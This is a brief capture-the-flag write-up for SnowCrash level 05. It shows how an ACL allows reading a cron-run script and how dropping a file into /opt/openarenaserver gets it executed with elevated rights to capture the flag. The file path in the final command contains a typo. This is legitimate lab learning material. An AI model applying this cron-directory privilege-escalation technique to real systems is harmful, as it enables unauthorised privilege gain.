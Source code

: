 #level 05

in this level we where provided with an email which is a file that shows a cronjob that runs a script each two minutes as flag05

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

after that we tried to read the file that contains the script and even though its access rights look like we cannot read them, we can due to Access Control Lists (ACLs) which are aditional access rights can be seen using the command getfacl 


```
level05@SnowCrash:/var/crash$ getfacl /usr/sbin/openarenaserver
getfacl: Removing leading '/' from absolute path names
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

it has defined a specific right only for the user:level05 with only read access, and after reading the file we got 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

this is a simple bash script that reads all the files in the repo /opt/openarenaserver/ and opens a new subshell and applies a limit of 5 seconds which means the lifetime of this subshell is 5 seconds and runs the bash script found in the repo in it 

```
test.sh

getflag > /vat/crash/test.txt
```

and if you read the file you'll find the flag there
